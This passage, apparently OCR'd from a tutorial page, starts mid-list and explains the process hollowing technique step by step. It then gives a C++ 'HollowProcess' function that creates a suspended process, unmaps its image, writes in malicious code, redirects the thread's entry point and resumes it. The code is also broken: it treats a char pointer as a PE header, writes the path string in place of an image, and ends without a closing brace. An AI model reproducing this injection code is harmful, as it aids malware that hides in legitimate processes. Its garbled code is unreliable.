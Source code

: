2. **Unmap the Legitimate Process Memory**: The memory where the legitimate process's code resides is unmapped using `ZwUnmapViewOfSection`. This removes the original executable code, leaving an empty address space.

3. **Map the Malicious Code into the Process**: The attacker allocates memory in the process's address space and writes the malicious code into it. The malicious code could be a DLL or shellcode.

4. **Adjust the Entry Point**: The entry point of the process is adjusted to point to the start of the malicious code. This ensures that when the process is resumed, the malicious code will execute.

5. **Resume the Process**: Finally, the attacker resumes the process using `ResumeThread`. The process now starts executing the malicious code instead of the original legitimate code.

### **Example Code for Process Hollowing (C/C++)**

```cpp
#include <windows.h>
#include <winternl.h>

bool HollowProcess(const char* pwszTargetPath, const char* pwszMaliciousPath) {
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    // Step 1: Create the process in a suspended state
    if (!CreateProcessA(pwszTargetPath, nullptr, nullptr, nullptr, FALSE, CREATE_SUSPENDED, nullptr, nullptr, &si, &pi)) {
        return false;
    }

    // Step 2: Get the base address of the image in the process
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    if (!GetThreadContext(pi.hThread, &ctx)) {
        TerminateProcess(pi.hProcess, 0);
        return false;
    }

    // Get the base address from the PEB (Process Environment Block)
    PVOID pImageBase;
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + 0x10), &pImageBase, sizeof(PVOID), nullptr);

    // Step 3: Unmap the original executable from the process's memory
    ZwUnmapViewOfSection(pi.hProcess, pImageBase);

    // Step 4: Allocate memory for the malicious code
    PVOID pMaliciousBase = VirtualAllocEx(pi.hProcess, pImageBase, pwszMaliciousPath->SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!pMaliciousBase) {
        TerminateProcess(pi.hProcess, 0);
        return false;
    }

    // Step 5: Write the malicious code into the process
    WriteProcessMemory(pi.hProcess, pMaliciousBase, pwszMaliciousPath, pwszMaliciousPath->SizeOfImage, nullptr);

    // Step 6: Set the entry point to the malicious code
    ctx.Rcx = (DWORD64)pMaliciousBase + pwszMaliciousPath->AddressOfEntryPoint;
    SetThreadContext(pi.hThread, &ctx);

    // Step 7: Resume the process
    ResumeThread(pi.hThread);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
```